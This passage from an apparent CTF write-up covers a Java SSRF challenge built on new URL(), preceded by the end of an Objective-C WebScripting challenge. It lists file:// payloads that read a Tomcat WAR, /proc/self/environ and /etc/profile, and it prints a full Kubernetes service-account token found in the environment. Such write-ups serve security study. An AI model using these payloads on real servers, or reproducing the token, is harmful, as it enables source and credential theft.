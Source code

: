 #### Easter egg：

When using js to call a method that does not exist in the wmctf namespace, it will return a base64 encoded image string!

#### References

https://codecolor.ist/2021/08/04/mistuned-part-i/
https://developer.apple.com/documentation/objectivec/nsobject/webscripting?language=objc
https://developer.apple.com/documentation/objectivec/nsobject/1528539-webscriptname/
https://developer.apple.com/library/archive/documentation/AppleApplications/Conceptual/SafariJSProgTopics/ObjCFromJavaScript.html

## WEB

### Java

The home page of the topic is a SSRF page, I used `new URL()` to design this vulnerability.

First is an arbitrary file reading vulnerability, you can read the source code using the following payload.

```
file:///usr/local/Tomcat8/webapps/ROOT.war
```

The key parts of the code are as follows.

1. ssrf using new URL(), filtered with backquotes`
2. When using https access, the header information is forwarded

Note: Using new URL() for ssrf here will have a small problem at the end.

![image-20220825105325434](http://img.l1near.top/e6c9d24ely1h5itomz4h0j21e80s4gqh.jpg)

Second, you can read the system environment variables using the following payload.

```shell
file:///proc/self/environ
file:///etc/profile
```

You can find there is a token value for the k8s account that is placed in the environment variable as follows.

```shell
# kube token
TOKEN=eyJhbGciOiJSUzI1NiIsImtpZCI6Ik1IN0RxS0k3U0xhZ1ljYnk1WkE3WE5Mb2dMcVdLOXh5NXVEdmtfc2lKMWMifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJkZWZhdWx0Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6ImN0ZmVyLXRva2VuLXB6NWxtIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImN0ZmVyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQudWlkIjoiYjg2ODY0MTgtOWNiOC00MjZiLThkZmQtNTgxM2E1YTVmMTdiIiwic3ViIjoic3lzdGVtOnNlcnZpY2VhY2NvdW50OmRlZmF1bHQ6Y3RmZXIifQ.JWwKPAYDMYDmqq-jg9Mzmvil-wG33skSqWsS3_zjv1bLGTRMUvP73w_LsLu7ptRJ1iofTbHBrgRyn01sJ2wjG8f-LruNFWwPj0S6zcGnfYlaUfG70lZIA7otXgEb2pCBzdqrxH4n4PR2aAE5wG-p_uoBjwiShrX-ykfxwErJMnwvJ15OQ57Y87QlZllkaYnvXgg3853qQ5ww414dz4UZ1BL7jXlcCjwbivHMifxMvUAL6GJWY-yoA3hJJBMNz5sjgUz71MXs-0wWLczDk5cv4mbXrjE-mCden5er32ifjsWBx6H_1i5JX6lSt3BP7iUxBQVaqLhnBtYR5nQuFADMFg
```

